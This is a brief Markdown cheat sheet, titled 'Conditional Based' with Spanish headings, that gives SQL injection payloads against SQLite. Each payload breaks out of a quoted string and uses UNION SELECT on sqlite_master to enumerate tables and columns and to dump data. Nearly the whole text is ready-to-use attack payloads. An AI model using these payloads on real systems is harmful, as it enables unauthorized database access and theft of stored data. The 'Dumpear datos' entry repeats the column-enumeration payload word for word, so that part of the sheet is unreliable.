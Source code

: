 # conditional-based

# Conditional Based

## SQLite

### Enumerar tablas

```
admin")) union select 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

### Enumerar columnas

```
admin")) union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```

### Dumpear datos

```
admin")) union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```